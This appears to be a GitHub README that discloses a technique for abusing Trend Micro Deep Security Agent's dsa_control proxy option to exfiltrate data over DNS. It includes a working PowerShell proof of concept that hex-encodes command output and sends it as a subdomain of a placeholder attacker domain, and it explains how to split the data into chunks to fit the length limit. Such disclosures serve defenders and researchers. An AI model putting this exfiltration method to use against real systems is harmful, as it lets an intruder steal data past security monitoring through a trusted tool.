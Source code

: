 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

<img src="assets/logo.png" width=150>

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can "abuse" it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

"The [dsa_control](https://help.deepsecurity.trendmicro.com/aws/command-line-interface.html#dsa_cont) enables you to configure some of the Deep Security Agent settings and manually trigger such actions as activation, anti-malware scans, and baseline rebuilds."

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed

dsa_control path: (default)
- `C:\Program Files\Trend Micro\Deep Security Agent\`

⚠️NOTE: The entire FQDN has a max length of 255 characters, so the exfiltrated data must be sent in chunks(if necessary).

- [Trend Micro Configuration](#trend-micro-configuration)
- [POC](#poc)
- [Example](#example)

## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)


